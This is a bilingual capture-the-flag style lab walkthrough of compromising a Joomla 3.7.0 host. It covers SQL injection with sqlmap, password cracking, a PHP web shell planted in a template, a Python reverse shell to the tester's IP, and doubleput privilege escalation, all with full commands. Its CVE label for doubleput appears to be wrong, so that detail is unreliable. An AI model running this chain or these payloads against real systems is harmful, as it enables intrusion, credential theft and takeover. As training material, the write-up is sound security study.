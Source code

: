 # 🛡️ 靶场渗透笔记：Joomla! 3.7.0 SQL Injection & Local Privilege Escalation

> 🎯 漏洞类型：CMS SQL注入 + 一句话木马 + Python反弹Shell + 本地提权（doubleput）

------

## 📍信息收集阶段 / Information Gathering

### ✅ 中文步骤：

1. 使用 `dirsearch` 扫描网站目录，发现登录路径。

2. 使用 `CMSeeK` 检测目标为 Joomla 3.7.0：

   ```apl
   cmseek -u http://192.168.111.163
   ```

3. 确认管理员路径：`http://192.168.111.163/administrator`

### ✅ English Summary:

1. Used `dirsearch` to find login interface.
2. Detected CMS as Joomla 3.7.0 using `CMSeeK`.
3. Admin URL confirmed as: `http://192.168.111.163/administrator`

------

## 🧨 漏洞利用阶段 / Exploitation

### ✅ 中文步骤：

1. 查找漏洞：

   ```apl
   searchsploit Joomla 3.7.0
   ```

   发现：Joomla! 3.7.0 - 'com_fields' SQL Injection

2. 查看漏洞详情：

   ```apl
   cat /usr/share/exploitdb/exploits/php/webapps/42033.txt
   ```

3. 使用 `sqlmap` 测试注入点：

   ```apl
   sqlmap -u "http://192.168.111.163/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" \
   --risk=3 --level=5 --random-agent --dbs -p list[fullordering]
   ```

4. 确定数据库为：`joomladb`

5. 枚举表格：

   ```apl
   sqlmap -u ... -D joomladb --tables
   ```

6. 枚举字段：

   ```apl
   sqlmap -u ... -D joomladb -T '#__users' --columns
   ```

7. 导出用户名和密码：

```apl
sqlmap -u ... -T '#__users' -C username,password --dump
```

1. 使用 `john` 破解密码：

```apl
john /root/Desktop/pass.txt
```

1. 成功获得后台账号 `snoopy`，登录 Joomla 后台，修改 Beez3 模板中的 `component.php` 添加一句话木马：

```apl
<?php $var=shell_exec($_GET['cmd']); echo $var; ?>
```

1. 访问木马测试是否存在 Python：

```apl
http://192.168.111.163/templates/beez3/component.php?cmd=which python
```

1. 本地监听反弹端口：

```apl
nc -nvlp 8888
```

1. 在目标机器上触发反弹 Shell：

```apl
http://192.168.111.163/templates/beez3/component.php?cmd=python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.111.143",8888));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"])'
```

1. 获得 Shell 后稳定：

```apl
python -c "import pty;pty.spawn('/bin/bash')"
```

------

## 🧬 提权阶段 / Privilege Escalation

### ✅ 中文步骤：

1. 查看系统版本：

```apl
tac /etc/issue
```

或使用提权检测脚本，确认系统为 Ubuntu 16.04。

1. 搜索提权漏洞：

```apl
searchsploit Ubuntu 16.04
```

1. 下载 doubleput 提权工具：

```apl
locate 39772.txt
cat /usr/share/exploitdb/exploits/linux/local/39772.txt
```

1. 按链接下载 ZIP 包并传输到目标主机，解压后执行：

```apl
chmod +x compile.sh
./compile.sh
./doubleput
```

1. 显示 “you'll have a root shell in <=60 seconds.” 即提权成功！

### ✅ English Summary:

- Used SQL injection in Joomla to retrieve credentials
- Uploaded PHP shell via Joomla template
- Gained reverse shell using Python
- Performed local privilege escalation using **doubleput** exploit (CVE-2017-16995)

------

## 🏁 总结 / Summary

| 阶段      | 工具                | 技术                      |
| --------- | ------------------- | ------------------------- |
| 信息收集  | dirsearch / CMSeeK  | CMS识别                   |
| 漏洞利用  | sqlmap / Joomla后台 | SQL注入 / 木马上传        |
| Shell获取 | Python              | 反弹Shell                 |
| 提权      | doubleput           | 本地提权 (CVE-2017-16995) |